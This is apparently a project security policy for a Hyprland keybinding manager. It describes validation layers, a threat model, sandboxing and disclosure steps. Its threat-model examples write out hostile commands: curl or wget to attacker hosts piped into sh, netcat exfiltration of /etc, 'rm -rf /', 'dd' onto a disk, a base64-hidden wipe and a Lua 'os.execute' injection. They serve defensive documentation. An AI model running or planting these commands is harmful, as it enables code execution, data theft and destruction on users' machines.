

# Security Policy

## Overview

Hyprland Keybinding Manager takes security seriously.
This document outlines the security architecture, threat model, supported versions, and responsible disclosure process.

**Security Philosophy**: [Defence in depth](https://en.wikipedia.org/wiki/Defense_in_depth_(computing)) with multiple independent validation layers.

## Table of Contents

- [Overview](#overview)
- [Supported Versions](#supported-versions)
- [Security Architecture](#security-architecture)
  - [What Runs Before a Binding Is Saved](#what-runs-before-a-binding-is-saved)
- [Threat Model](#threat-model)
  - [Threats Mitigated ✅](#threats-mitigated-)
  - [Threats NOT Fully Mitigated ⚠️](#threats-not-fully-mitigated-️)
- [Security Features](#security-features)
  - [1. Whitelist-Based Validation](#1-whitelist-based-validation)
  - [2. Shell Metacharacter Detection](#2-shell-metacharacter-detection)
  - [3. Shannon Entropy Detection](#3-shannon-entropy-detection)
  - [4. Atomic File Operations](#4-atomic-file-operations)
  - [5. Automatic Backup System](#5-automatic-backup-system)
  - [6. Lua Config Sandbox](#6-lua-config-sandbox)
  - [7. Permission Verification Warnings](#7-permission-verification-warnings)
- [Memory Safety](#memory-safety)
  - [100% Safe Rust](#100-safe-rust)
  - [Protections Provided](#protections-provided)
- [Reporting a Vulnerability](#reporting-a-vulnerability)
  - [Responsible Disclosure Process](#responsible-disclosure-process)
  - [Response Timeline](#response-timeline)
  - [Severity Classification](#severity-classification)
- [Security Audit History](#security-audit-history)
- [Security Best Practices for Users](#security-best-practices-for-users)
- [Future Security Enhancements](#future-security-enhancements)
- [Security Acknowledgements](#security-acknowledgements)
- [Contact](#contact)

---

## Supported Versions

| Version | Supported          | Status                |
|---------|-------------------|-----------------------|
| ≥ 1.4.2 | ✅ Yes            | Current stable        |
| < 1.4.2 | ❌ No             | Please upgrade, see the 2026-10-14 audit below |

---

## Security Architecture

### What Runs Before a Binding Is Saved

Every binding the user adds, edits or imports goes through the steps below. Lines already in the config are left alone; only bind lines that change are rewritten.



<details>
<summary>ASCII Fallback Diagram</summary>

```
Binding from the edit dialog or an imported file
    │
    ↓
┌──────────────────────────────────────────────────┐
│  1. Danger detection (add, edit, import)         │
│  ✗ Critical: rm -rf /, dd to a disk, fork bombs  │──→ ❌ Refused
└────────────────┬─────────────────────────────────┘
                 ↓
┌──────────────────────────────────────────────────┐
│  2. Format guards (every write)                  │
│  hyprland.conf: no line breaks, no commas before │──→ ❌ Refused
│  the arguments, # written as ##                  │
│  hyprland.lua: string literals, arguments        │
│  evaluated and written back as data              │
└────────────────┬─────────────────────────────────┘
                 ↓
┌──────────────────────────────────────────────────┐
│  3. Transaction                                  │
│  Backup with the config's permissions, then an   │
│  atomic write                                    │
└────────────────┬─────────────────────────────────┘
                 ↓
             ✅ Saved
```
</details>

**Danger detection** rates the command of an `exec` or `execr` binding. A critical rating stops the save and names the binding. An import stops as a whole, so a shared file is never half applied. Dangerous and suspicious ratings, such as `sudo` or a base64 pipe, are allowed, because the detector matches known patterns and cannot tell a cleanup script from an attack. The GUI does not show those ratings yet.

**Format guards** are about what Hyprland will read. A `hyprland.conf` bind is one line split on commas, so a line break in any field, or a comma in the key, description or dispatcher, would turn part of a field into another directive or another dispatcher. Such a binding is refused. A `#` is written as `##`, because a lone `#` starts a comment. In `hyprland.lua` every string is written as an escaped literal. Dispatcher arguments are evaluated with no globals and rendered again from the resulting values, so typed text never reaches the file as code.

**Bubblewrap sandbox.** The edit dialog can wrap an `exec` binding in Bubblewrap, with no network access and only read-only system directories. Hyprland runs exec text with `sh -c`, so the whole command line is passed, quoted, to a shell that starts inside the sandbox, and `a; b` runs both commands inside it.

**Injection checks for IPC.** The dispatcher whitelist and the shell metacharacter check in `src/core/validator.rs` guard binds sent to Hyprland over its socket. They are not applied to config writes, where an ordinary bind uses `"`, `|` or a dispatcher outside the list.

---

## Threat Model

### Threats Mitigated ✅

#### 1. Config Injection Through a Field
**Attack Vector**: An imported file holds a binding that Hyprland would read as more than one directive. A Lua string can hold a line break, and a description can hold commas.
```lua
-- A line break inside a Lua exec string, imported into a hyprland.conf setup
hl.bind("SUPER + F12", hl.dsp.exec_cmd("true\nexec-once = curl attacker.example | sh"))
```
**Mitigation**: The writer refuses a line break in any field and a comma before the arguments, and writes `#` as `##`. The import stops before anything is written.

#### 2. Lua Code in Dispatcher Arguments
**Attack Vector**: Arguments that look like data without globals, but run code once Hyprland loads the file.
```lua
-- 1 without globals; with them, Hyprland runs the command while loading
hl.bind("SUPER + F12", hl.dsp.workspace(os and os.execute("...") or 1))
```
**Mitigation**: Arguments are evaluated with no globals, under a memory and an instruction limit, and the values are written back as literals. The example is saved as `hl.dsp.workspace(1)`. Functions and nil are refused.

#### 3. Dangerous System Commands
**Attack Vector**: Direct system destruction commands
```bash
# BLOCKED: Critical destructive command
bind = SUPER, K, exec, rm -rf /
bind = SUPER, K, exec, dd if=/dev/zero of=/dev/sda
```
**Mitigation**: Critical patterns refuse the binding on add, edit and import, for `exec` and `execr`. The check runs before the list of known safe commands, so `kitty -e rm -rf /` is refused as well.

#### 4. Commands Escaping the Sandbox
**Attack Vector**: A sandboxed `exec` binding that chains a second command.
```bash
# Before 1.4.2 only firefox ran inside Bubblewrap
firefox; curl attacker.example | sh
```
**Mitigation**: The whole command line goes to a shell started inside the sandbox.

#### 5. Config File Corruption
**Attack Vector**: Power loss or crash during write
**Mitigation**: Atomic write operations (temp file + OS rename guarantee).

#### 6. Data Loss from Accidental Deletion
**Attack Vector**: User deletes keybinding by mistake
**Mitigation**: Automatic timestamped backups before every write operation. A backup keeps the permission bits of the config, and the restore list only offers backups of the file being edited, never a symlink.

### Threats NOT Fully Mitigated ⚠️

#### 1. Malicious Valid Commands
**Scenario**: A binding, typed or imported, whose command is harmful but not critical.
```bash
bind = SUPER, K, exec, curl attacker.example/malware.sh | sh
bind = SUPER, K, exec, echo 'cm0gLXJmIC8=' | base64 -d | sh
```
**Status**: Saved as written. Hyprland runs it on the key press.
**Mitigation Strategy**: The danger detector rates commands like these, or `sudo bash`, as dangerous or suspicious. Only critical ones are refused, and the GUI does not show the other ratings yet. The pattern list also misses variants such as `rm -rf /*` and absolute paths such as `/usr/bin/sudo`.
**Residual Risk**: Read an import file before importing it; [Audit Third-Party Configs](#3-audit-third-party-configs) has a quick check.

#### 2. [Time-of-Check to Time-of-Use (TOCTOU)](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) Race Conditions
**Scenario**: Malicious process modifies config file between validation and execution.
```
Thread 1: Validate config (PASS) → Write config
Thread 2: Modify file between validate and write
```
**Status**: Window of vulnerability exists (microseconds).
**Mitigation Strategy**: Atomic operations minimise window.
**Residual Risk**: Advanced local attackers with root access could exploit.

#### 3. Execution Environment Attacks
**Scenario**: Keybindings execute in user's full environment (PATH, env vars).
```bash
# Legitimate binding, but PATH contains malicious directory
bind = SUPER, K, exec, firefox
# Executes /malicious/path/firefox instead of /usr/bin/firefox
```
**Status**: Partially mitigated.
**Mitigation Strategy**: `exec` bindings can be wrapped in Bubblewrap from the UI, which removes network access and exposes the system via read-only binds.
**Residual Risk**: The sandbox does not resolve PATH to absolute binaries, and non-`exec` dispatchers are unaffected.

#### 4. Network-Based Attacks
**Scenario**: Valid commands that download malicious payloads.
```bash
bind = SUPER, K, exec, wget http://attacker.com/payload
```
**Status**: `wget`, `curl` are valid tools, often used legitimately.
**Mitigation Strategy**: The danger detector rates network tools as suspicious, though the GUI does not show it yet, and Bubblewrap removes network access when it is enabled for an `exec` binding.
**Residual Risk**: Users can still save unsandboxed bindings, and the sandbox is opt-in rather than mandatory.

---

## Security Features

### 1. Whitelist-Based Validation

**Philosophy**: Deny by default, allow explicitly.

**Scope**: Binds sent to Hyprland over IPC. Config writes do not use the whitelist, because a real config uses dispatchers outside it, such as `resizewindow`.

**Allowed Dispatchers** (as of October 2025):
- Verified against official Hyprland documentation
- Total: 41 whitelisted dispatchers
- Examples: `exec`, `workspace`, `killactive`, `togglefloating`

**Maintenance**: Whitelist updated when Hyprland adds new dispatchers.

### 2. Shell Metacharacter Detection

**Blocked Characters**:
```
; | & $ ` ( ) { } [ ] < > \ " ' \n \r
```

**Rationale**: These characters enable command chaining, piping, and substitution.

**Scope**: Binds sent to Hyprland over IPC, like the whitelist. An `exec` bind in a config is a shell command line the user wrote on purpose, so the editor saves `|` and `;` as they are.

**Example**:
```bash
# BLOCKED: Semicolon enables command chaining
firefox; whoami

# BLOCKED: Pipe enables data exfiltration
ls /etc | nc attacker.com 1234

# BLOCKED: Backticks enable command substitution
firefox `whoami`
```

### 3. Shannon Entropy Detection

**Innovation**: Detects obfuscated payloads using information theory.

**Algorithm** (using [HashMap](https://doc.rust-lang.org/std/collections/struct.HashMap.html)):
```rust
fn shannon_entropy(data: &str) -> f64 {
    let mut frequencies = HashMap::new();
    for byte in data.bytes() {
        *frequencies.entry(byte).or_insert(0.0) += 1.0;
    }

    let len = data.len() as f64;
    frequencies.values()
        .map(|&count| {
            let p = count / len;
            -p * p.log2()
        })
        .sum()
}
```

**Thresholds** (empirically validated):
- **Base64**: 4.0 bits/character
- **Hex**: 3.0 bits/character
- **Minimum Length**: 8 characters (reduces false positives)

**Detection Order**: Hex before Base64 (hex alphabet ⊂ base64 alphabet).

**Deep Dive**: For a comprehensive technical analysis including mathematical foundations, empirical validation methodology, theory vs. practice gap analysis, and complete test suite results (30/30 passing), see [ENTROPY_DETECTION.md](docs/ENTROPY_DETECTION.md) (945 lines).

### 4. [Atomic](https://en.wikipedia.org/wiki/Atomicity_(database_systems)) File Operations

**Implementation**: `atomic-write-file` crate

**Sequence**:
1. Write to temporary file (`.hyprland.conf.tmp`)
2. Call `fsync()` to flush to disk
3. Atomic `rename()` operation (OS guarantee)

**Guarantee**: Either old file intact OR new file complete. Never partial write.

### 5. Automatic Backup System

**Format**: `{filename}.YYYY-MM-DD_HHMMSS`

**Example**:
```
~/.config/hypr/backups/
├── hyprland.conf.2025-01-15_143045
├── hyprland.conf.2025-01-14_091522
└── hyprland.conf.2025-01-13_184511
```

**Retention**: User-configurable (default: keep all backups).

**Permissions**: A backup is copied with the permission bits of the config, so a `0600` config gets `0600` backups.

**Restore list**: Only regular files named after the config being edited are offered. A sourced file in the same directory shares `backups/`, and its backups never appear in the list for the main file.

**Sourced files**: A binding that lives in a `source =` file is written to that file, through the same transaction. Its backups go to a `backups/` directory next to that file.

**Scope of a write**: Only bind lines whose binding changed are rewritten. Every other line is copied through unchanged, which keeps the reviewable diff of a config edit to the lines the user meant to touch.

### 6. Lua Config Sandbox

A `hyprland.lua` config is executed to discover its binds. It runs in an embedded Lua 5.5 state with a restricted environment: no `io`, no `load`/`dofile`, no `os.execute`, `require` limited to files inside the config directory, a 64 MiB memory limit and a 20 million instruction limit. Every `hl` function is a stub; callbacks passed to `hl.on` or `hl.timer` are never called. The config is the user's own file that Hyprland itself executes, so this is a guard against mistakes and endless loops rather than a trust boundary.

Text written back into a Lua config is rendered as Lua string literals (keys, commands, descriptions), and dispatcher paths are restricted to `[a-z0-9_.]`. Other arguments are evaluated with no globals, under the same instruction limit and a 1 MiB memory limit, and the resulting values are rendered again by `src/core/lua_literal.lua`. Only that rendering is written. Checking the typed text and then writing it was not enough: `os and os.execute("...") or 1` is plain data without globals and a command once Hyprland loads the file.

### 7. Permission Verification Warnings

On startup, the application checks the target config file and warns when:
- The file is world-readable
- The file is world-writable
- The file owner differs from the current user (Linux `/proc/self` check)

**Behaviour**: Warnings are informational. The application still opens the config so advanced setups like shared mounts and symlinks are not blocked outright.

---

## Memory Safety

### 100% [Safe Rust](https://doc.rust-lang.org/nomicon/meet-safe-and-unsafe.html)

- **Zero `unsafe` blocks** in entire codebase, enforced by the compiler
- **Cargo.toml lints**, applied to the package through `[lints] workspace = true`:
  ```toml
  [lints]
  workspace = true

  [workspace.lints.rust]
  unsafe_code = "forbid"

  [workspace.lints.clippy]
  expect_used = "deny"
  unwrap_used = "deny"
  panic = "deny"
  ```
- `clippy.toml` allows `unwrap`, `expect` and `panic!` in tests only

### Protections Provided

1. **No Buffer Overflows**: Bounds checking on all array/vector access
2. **No Use-After-Free**: Ownership system prevents dangling pointers
3. **No Data Races**: Borrow checker ensures thread safety
4. **No Null Pointer Dereference**: `Option<T>` forces explicit handling

---

## Reporting a Vulnerability

### Responsible Disclosure Process

**Please DO**:
- Email security reports to: **tidynest@proton.me**
- Use subject line: `[SECURITY] Hyprland Keybinding Manager - [Brief Description]`
- Include:
  - Vulnerability description
  - Steps to reproduce
  - Proof-of-concept (if applicable)
  - Suggested fix (if you have one)
- Allow 7 days for initial response

**Please DO NOT**:
- Open public GitHub issues for vulnerabilities
- Disclose vulnerability publicly before patch is available
- Exploit vulnerability for malicious purposes

### Response Timeline

| Timeframe | Action |
|-----------|--------|
| **0-7 days** | Initial response acknowledging report |
| **7-14 days** | Severity assessment and timeline estimate |
| **14-30 days** | Patch development and testing |
| **30-45 days** | Public disclosure with credit to reporter |

### Severity Classification

**Critical** (Immediate fix required):
- Remote code execution
- Privilege escalation to root
- Data exfiltration of sensitive information

**High** (Fix within 7 days):
- Local code execution bypassing validation layers
- Config file corruption causing data loss

**Medium** (Fix within 30 days):
- Denial of service via malformed input
- Information disclosure (config paths, usernames)

**Low** (Fix in next release):
- Minor memory leaks
- UI rendering issues with security implications

---

## Security Audit History

| Date | Auditor | Scope | Findings |
|------|---------|-------|----------|
| 2026-10-14 | Internal | Full codebase, release workflow, dependencies | 3 high, 6 medium, 5 low, fixed in 1.4.2 (see CHANGELOG.md) |
| 2025-01-15 | Internal | Full codebase | 0 critical, 0 high |
| 2025-01-01 | Clippy | Rust best practices | 0 warnings |

---

## Security Best Practices for Users

### 1. Verify Config File Ownership

```bash
# Check config file owner and permissions
ls -l ~/.config/hypr/hyprland.conf

# Should be owned by you (not root!)
# Recommended permissions: 0644 or 0600
```

### 2. Review Backups Regularly

```bash
# List all backups
ls -lh ~/.config/hypr/backups/

# Verify backup contents before restoring
cat ~/.config/hypr/backups/hyprland.conf.2025-01-15_14-30-45
```

### 3. Audit Third-Party Configs

**Never blindly import configs from untrusted sources!**

```bash
# Always review imported configs
cat downloaded-config.conf | grep -E "exec|sudo|rm|chmod"
```

### 4. Keep Software Updated

```bash
# Update regularly for security patches
git pull origin main
cargo build --release
```

### 5. Monitor for Suspicious Activity

**Watch for**:
- Unexpected keybindings you didn't create
- Bindings with `exec` commands you don't recognise
- Bindings containing network tools (`wget`, `curl`, `nc`)

---

## Future Security Enhancements

### Planned

1. **Sandbox Profiles** (Medium Priority)
   - Expand Bubblewrap with selectable security profiles
   - Restrict filesystem access more aggressively per binding type
   - Add clearer UI explanations for sandbox trade-offs

2. **AppArmor/SELinux Profiles** (Medium Priority)
   - System-level mandatory access control
   - Prevent writes to sensitive directories (`~/.ssh/`, `/etc/`)

3. **Audit Logging** (Medium Priority)
   - JSON log of all config changes
   - Fields: timestamp, action, user, binding, success/failure
   - Local only, no telemetry

4. **Cryptographic Signing** (Low Priority)
   - Sign backups with ed25519
   - Verify backup integrity on restore
   - Detect tampering

---

## Security Acknowledgements

The author thanks:
- **[Rust](https://www.rust-lang.org/) Security Team** for language-level memory safety
- **[OWASP](https://owasp.org/)** for security testing methodology
- **[Hyprland](https://hypr.land/) Community** for security discussions

---

## Contact

**Security Email**: tidynest@proton.me

---

**Last Updated**: 2026-10-14
**Version**: 1.4.1
